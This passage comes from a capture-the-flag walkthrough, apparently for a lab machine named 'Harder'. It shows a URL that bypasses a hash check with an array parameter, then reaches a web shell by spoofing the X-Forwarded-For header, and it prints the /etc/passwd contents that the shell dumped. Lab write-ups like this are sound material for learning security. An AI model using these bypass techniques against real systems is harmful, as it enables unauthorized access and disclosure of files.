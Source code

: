    [http://pwd.harder.local/index.php?n[]=1&host=ros.com&h=73aeb29c6c1c96be662ca4b240afe6bfc950c2f60d6c612e7b4f79a92d662701](http://pwd.harder.local/index.php?n[]=1&host=ros.com&h=73aeb29c6c1c96be662ca4b240afe6bfc950c2f60d6c612e7b4f79a92d662701)
    n : array
    host : ros.com
    h : 73aeb29c6c1c96be662ca4b240afe6bfc950c2f60d6c612e7b4f79a92d662701

This results in

![](https://cdn-images-1.medium.com/max/2000/1*kjO_MlTxbdzhx_frk8syMw.png)

We get another virtual host. Now again we need to add this to /etc/hosts file in order to access this

    <machine_ip_address> shell.harder.htb

![](https://cdn-images-1.medium.com/max/2000/1*Gt45c2bJ7DM2DuO9VP84ow.png)

Again we get the 404 pages, so I thought the vhost should be different. In order to make it similar to the other vhost. Changed the vhost to **shell.harder.local** editing the /etc/hosts file.

On accessing [http://shell.harder.local/](http://shell.harder.local/) we get the login page and the new credentials worked.

![](https://cdn-images-1.medium.com/max/2000/1*rgDQcH1GFuV6Lv2pC458uA.png)

On logging in we get

![](https://cdn-images-1.medium.com/max/2000/1*QMje_TR7vPtSjf2bOVGmqA.png)

So now we need to bypass this. In order to bypass this, we need to set the X-Forwarded-For header and set its value to 10.10.10.0/24

![](https://cdn-images-1.medium.com/max/2000/1*xCzHvm5VUqhbzgDs5X2liA.png)

On viewing on the browser

![](https://cdn-images-1.medium.com/max/2000/1*6gRY0DLRR6N_rxz1Lfvmzw.png)

So we got a web shell. Again intercepted the request in burp in order to run the commands and setting the X-Forwarded-For header.

On running whoami we get www .

/etc/passwd

    root:x:0:0:root:/root:/bin/ash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
    sync:x:5:0:sync:/sbin:/bin/sync
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
    halt:x:7:0:halt:/sbin:/sbin/halt
    mail:x:8:12:mail:/var/mail:/sbin/nologin
    news:x:9:13:news:/usr/lib/news:/sbin/nologin
    uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
    operator:x:11:0:operator:/root:/sbin/nologin
    man:x:13:15:man:/usr/man:/sbin/nologin
    postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
    cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
    ftp:x:21:21::/var/lib/ftp:/sbin/nologin
    sshd:x:22:22:sshd:/dev/null:/sbin/nologin
    at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
    squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
    xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
    games:x:35:35:games:/usr/games:/sbin/nologin
    cyrus:x:85:12::/usr/cyrus:/sbin/nologin
